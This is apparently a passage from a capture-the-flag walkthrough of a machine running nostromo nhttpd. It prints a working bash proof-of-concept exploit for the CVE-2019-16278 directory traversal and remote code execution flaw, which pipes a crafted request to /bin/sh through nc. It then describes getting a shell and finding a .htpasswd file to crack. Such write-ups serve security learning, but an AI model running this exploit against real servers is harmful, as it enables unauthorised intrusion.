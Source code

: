 ```
```

Hmm. I wonder what's nostromo? Anyway, this is what the site looks like.

{% include image.html image_alt="5c9cb423.png" image_src="/db790aaf-ea50-46b0-8a84-5f421092d92d/5c9cb423.png" %}

Nice and clean template :+1:

### CVE-2019-16278 - nhttpd <= 1.9.6 Remote Code Execution

According to [CVE-2019-16278](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16278), there's a directory traversal vulnerability in nostromo nhttpd through 1.9.6 leading to remote code execution. The discoverer ([sp0re](https://git.sp0re.sh/sp0re)) was kind to leave a proof-of-concept bash [script](https://git.sp0re.sh/sp0re/Nhttpd-exploits/src/branch/master/CVE-2019-16278.sh) to test the vulnerability.

<div class="filename"><span>test.sh</span></div>

```bash
#!/bin/bash

HOST=$1
PORT=$2
shift 2

( \
  echo -n -e 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\n'; \
  echo -n -e 'Content-Length: 1\r\n\r\necho\necho\n'; \
  echo "$@ 2>&1" \
) | nc "$HOST" "$PORT" \
  | sed --quiet -e ':S;/^\r$/{n;bP};n;bS;:P;n;p;bP'
```

Let's give it a shot!

{% include image.html image_alt="625e764a.png" image_src="/db790aaf-ea50-46b0-8a84-5f421092d92d/625e764a.png" %}

Perfect.

### Low-Privilege Shell

Lucky for us, there's a copy of `nc` in `/usr/bin/nc` that supports command execution.

{% include image.html image_alt="0787984e.png" image_src="/db790aaf-ea50-46b0-8a84-5f421092d92d/0787984e.png" %}

With that, we can get our shell with ease.

{% include image.html image_alt="e2f58ae3.png" image_src="/db790aaf-ea50-46b0-8a84-5f421092d92d/e2f58ae3.png" %}

### John the Ripper

It wasn't long before I found the configuration directory for nostromo at `/var/nostromo/conf`. I found the `.htpasswd` in that directory.
